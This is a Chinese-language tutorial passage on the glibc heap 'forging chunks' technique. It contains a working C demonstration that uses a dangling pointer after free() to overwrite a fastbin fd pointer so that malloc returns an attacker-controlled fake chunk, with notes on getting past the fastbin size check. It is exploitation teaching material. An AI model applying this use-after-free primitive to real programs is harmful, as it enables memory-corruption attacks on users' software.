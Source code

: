 # Forging chunks(伪造chunks)

释放一个chunk后，会将其插入到 bin list中。但是其指针仍然在程序中处于可用状态，如果攻击者控制了这个指针，就可以修改bin中的链表结构并插入他自己伪造的chunk。

```c++
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);
// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");
// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

伪造的chunk的大小参数设置为0x20，以便它通过安全检查“malloc(): memory corruption (fast)”。此安全检查将检查chunk的大小是否落在特定fast bin的范围内。

> 已分配块的数据从fd指针开始

fast bins中的情况：

1. free(a): `head -> a -> tail`
2. `*((unsigned long long *)a) = (unsigned long long)&chunk;` : `head -> a -> 伪造块 -> undefined(伪造的块的fd实际上会有攻击者的数据)`
3. malloc(10): `head -> 伪造的块 -> undefined`
4. victim=malloc(10): `head -> undefined`

注意：

- 在同一个bin列表中对fast chunk的另一个’malloc’请求将导致分段错误。
- 即使我们请求10个字节并将伪造块的大小设置为32（0x20）字节，两者都落在相同的fastbin的32字节chunk的范围内。
- 以上代码专为64位计算机而设计。为了在32位机器上运行它，替换unsigned long long用unsigned int作为指针现在4个字节，而不是8个字节。此外，不是使用32字节作为伪造chunk的大小，而是大约17字节的一小部分
